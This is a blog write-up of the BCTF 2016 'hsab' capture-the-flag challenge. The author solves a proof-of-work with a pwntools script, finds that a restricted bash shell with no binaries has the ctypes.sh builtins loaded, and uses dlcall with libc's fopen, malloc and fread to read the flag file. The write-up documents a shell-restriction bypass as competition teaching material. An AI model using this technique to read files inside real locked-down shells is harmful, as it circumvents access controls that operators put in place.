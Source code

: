 ```yaml
---
id: 654
title: 'BCTF 2016 - HSAB - Misc Category Challenge'
date: 2016-03-21T04:58:04+00:00
author: Kris
layout: post
guid: https://ctf.rip/?p=654
permalink: /bctf-2016-hsab-misc-category-challenge/
themepixels_post_link_target:
  - 'yes'
themepixels_enable_post_header:
  - default
themepixels_enable_post_meta_single:
  - default
themepixels_enable_post_featured_content:
  - default
themepixels_enable_post_categories:
  - default
themepixels_enable_post_tags:
  - default
themepixels_enable_post_share:
  - default
themepixels_enable_post_author_info_box:
  - default
themepixels_enable_related_posts:
  - default
themepixels_enable_post_next_prev_links:
  - default
themepixels_enable_topbar:
  - default
themepixels_enable_sticky_header:
  - default
themepixels_header_layout:
  - default
themepixels_site_layout:
  - default
themepixels_sidebar_position:
  - default
post_views_count:
  - "1514"
image: /images/2016/03/hsab.png
categories:
  - Write-Ups
tags:
  - bash
  - bctf
  - ctypes.sh
  - misc
---
```

What a fun challenge. I've heard of some very simple solutions after I solved it but I'm fairly certain this way is the intended solution.

We're given a server we can connect to (after solving a proof of work) that just drops us at a bash command prompt. There's very little to the clue, in fact, no text, just a name "hsab" and a IP and port to connect to so nothing else there.

First thing we find out is that there's no binaries on the server. So no `ls` no `cat`. You have `bash` and that's it. You also get dropped very quickly, like you have about 10 seconds then you get booted off.

I quickly hack this client together to try somethings:

```
#!/usr/bin/python

from pwn import *
import string
import hashlib
import itertools

host = '104.199.132.199'
port = 2222

while True:
    try:
        conn = remote(host,port)
        chall = conn.recvline().split('\'')[1]
        print "[*] Connecting - challenge: " + chall
        for i in itertools.product(string.ascii_letters + string.digits, repeat=7):
            attempt = ''.join(i)

            ha = hashlib.sha256()
            ha.update(chall + attempt)

            if ha.hexdigest().startswith("00000"):
                break

        conn.sendline(chall + attempt)
        conn.interactive()
    except KeyboardInterrupt:
        conn.close()
        pass
```



We can do a rudimentary listing of the filesystem with `echo *` and we find that the flag is most likely in the `/home/ctf/flag.ray` file.

```
root@kali:~/bctf/misc/hsab# ./hsab.py 
[+] Opening connection to 104.199.132.199 on port 2222: Done
[*] Connecting - challenge: kosdnoms
[*] Switching to interactive mode
-bash-4.4$ $ echo /*
/bin /dev /etc /home /lib /lib64 /proc /run /sys /usr
-bash-4.4$ $ echo home/*
home/ctf
-bash-4.4$ $ echo home/ctf/*
home/ctf/flag.ray
-bash-4.4$ $ echo bin/*
bin/bash bin/server
-bash-4.4$ $ echo usr/bin/*
usr/bin/bash usr/bin/server
-bash-4.4$ 
server: timeout
```

Ok so no software and need to read a file. Is the file even readable? We don't know! I begin to research "bash builtins" looking for a flag that will cat our file. On a whim I checked the environment with "set":

```
-bash-4.4$ $ set
BASH=/bin/bash
BASHOPTS=cmdhist:complete_fullquote:expand_aliases:extquote:force_fignore:hostcomplete:interactive_comments:login_shell:promptvars:sourcepath
...
RTLD_DEFAULT=0x0
RTLD_NEXT=0x-1
...
TERM=dumb
UID=1000
_=:
builtins=([0]="callback" [1]="dlcall" [2]="dlclose" [3]="dlopen" [4]="dlsym" [5]="pack" [6]="unpack")
```

Hmm what's this in the builtin's array in the environment? A quick google search turns up this which I recall reading when Tavis posted it a little while back: <a href="https://github.com/taviso/ctypes.sh/wiki" target="_blank">https://github.com/taviso/ctypes.sh/wiki</a>

So it appears that ctypes.sh plugin may be loaded into this shell? Let's do the "Hello world" test:

```
-bash-4.4$ $ dlcall puts "Hello, World"
Hello, World
```

Ok cool. So basically we can use dynamic library functions on this bash command line. libc seems to already be loaded so we map out what we need to do:

  * Is the flag readable? If so
  * fopen the /home/ctf/flag.ray and get a file handle
  * malloc a buffer
  * fread from the file handle into our buffer
  * printf the output

Let's check #1 - is the flag readable? Tavis gives us a "stat" example so lets use his example!

```
dlcall -n statbuf -r pointer malloc 1024
declare -a stat
{
    unset n
    stat[st_dev     = n++]="long"
    stat[st_ino     = n++]="long"
    stat[st_nlink   = n++]="long"
    stat[st_mode    = n++]="int"
    stat[st_uid     = n++]="int"
    stat[st_gid     = n++]="int"
    stat[             n++]="int"
    stat[st_rdev    = n++]="long"
    stat[st_size    = n++]="long"
    stat[st_blksize = n++]="long"
    stat[st_blocks  = n++]="long"
}
dlcall __xstat 0 "/home/ctf/flag.ray" $statbuf
unpack $statbuf stat
printf "/home/ctf/flag.ray\n"
printf "\tuid:  %u\n" ${stat[st_uid]##*:}
printf "\tgid:  %u\n" ${stat[st_gid]##*:}
printf "\tmode: %o\n" ${stat[st_mode]##*:}
printf "\tsize: %u\n" ${stat[st_size]##*:}
dlcall free $statbuf
```



I just paste it straight in at the prompt  <img src="http://ctf.rip/wp-content/plugins/classic-smilies/img/icon_smile.gif" alt=":)" class="wp-smiley" style="height: 1em; max-height: 1em;" />The important part of the result is:

```
-bash-4.4$ printf "\tmode: %o\n" ${stat[st_mode]##*:}
    mode: 100644
```

Phew we don't have to escalate privs the file is mode 0644! Let's begin reading it. Here's the code I came up with after struggling with syntax for a short while:

```
dlcall -n fd -r pointer fopen "/home/ctf/flag.ray" "r"
dlcall -n flagbuf -r pointer malloc 1024
dlcall -n flagbuf fread $flagbuf 1024 1 $fd
dlcall printf "%s" $flagbuf
```

And when we paste that in we're rewarded with the flag:

```
-bash-4.4$ $ dlcall -n fd -r pointer fopen "/home/ctf/flag.ray" "r"
pointer:0x1696be0
-bash-4.4$ dlcall -n flagbuf -r pointer malloc 1024
pointer:0x1697240
-bash-4.4$ dlcall -n flagbuf fread $flagbuf 1024 1 $fd
-bash-4.4$ dlcall printf "%s" $flagbuf
#BCTF{ipreferzshtobash}
-bash-4.4$ 
server: timeout
```